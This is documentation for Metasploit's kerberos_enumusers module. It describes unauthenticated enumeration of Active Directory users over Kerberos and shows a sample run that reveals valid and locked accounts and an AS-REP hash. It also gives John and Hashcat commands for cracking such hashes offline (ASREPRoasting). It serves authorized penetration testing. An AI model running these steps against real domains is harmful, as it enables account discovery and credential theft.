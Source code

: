 ## Vulnerable Application

The kerberos_enumusers module is used to enumerate valid Domain Users
via Kerberos from a wholly unauthenticated perspective. It utilises the
different responses returned by the service to identify users that exist
within the target domain. It is also able to identify whether user
accounts are enabled or disabled/locked out.

## Verification Steps

When verifying the module in the listed examples, it is recommended to test the following accounts:

- Valid account
- Invalid account
- Locked/Disabled account
- Account with spaces
- AS-REP Roastable accounts

## Target

To use kerberos_enumusers, make sure you are able to connect to the
Kerberos service on a Domain Controller.

## Scenarios

The following demonstrates basic usage, using a custom wordlist,
targeting a single Domain Controller to identify valid domain user
accounts.

Create a new `./users.txt` file, then run the module:

```
msf6 auxiliary(gather/kerberos_enumusers) > run rhost=192.168.123.228 domain=domain.local user_file=./users.txt verbose=true
[*] Running module against 192.168.123.228

[*] Using domain: ADF3.LOCAL - 192.168.123.228:88...
[*] 192.168.123.228:88 - User: "missing123" user not found
[+] 192.168.123.228:88 - User: "administrator" is present
[+] 192.168.123.228:88 - User: "account with spaces" is present
[-] 192.168.123.228:88 - User: "locked_account" account disabled or locked out
[+] 192.168.123.228:88 - User: "no_pre_auth" does not require preauthentication. Hash: $krb5asrep$23$no_pre_auth@DOMAIN.LOCAL:bdb54b9e...etc..etc...
[+] 192.168.123.228:88 - User: "fake_mysql" is present
[*] 192.168.123.228:88 - User: "missing1234" user not found
[*] Auxiliary module execution completed
msf6 auxiliary(gather/kerberos_enumusers) > 
```

### ASREPRoasting

Accounts that have `Do not require Kerberos preauthentication` enabled, will receive an ASREP response with a ticket present.
The technique of cracking this token offline is called ASREPRoasting.

Cracking ASREP response with John:

```
john ./hashes.txt --wordlist=./wordlist.txt --format:krb5asrep
```

Cracking ASREP response with Hashcat:

```
hashcat -m 18200 -a 0 ./hashes.txt ./wordlist.txt
```

You can see previously creds with:

```
creds -v
```

## Options

The `kerberos_enumusers` module only requires the `RHOST`, `DOMAIN` and
`USER_FILE` options to run.

**The DOMAIN option**

This option is used to specify the target domain. If the domain name is
incorrect an error is returned and domain user account enumeration will fail.

An example of setting DOMAIN:

```
set DOMAIN [domain name]
```

**The USER_FILE option**

This option is used to specify the file containing a list of user names
to query the Domain Controller to identify if they exist in the target domain
or not. One per line.

An example of setting USER_FILE:

```
set USER_FILE [path to file]
```

**The Timeout option**

This option is used to specify the TCP timeout i.e. the time to wait
before a connection to the Domain Controller is established and data read.

An example of setting Timeout:

```
set Timeout [value in seconds]
```
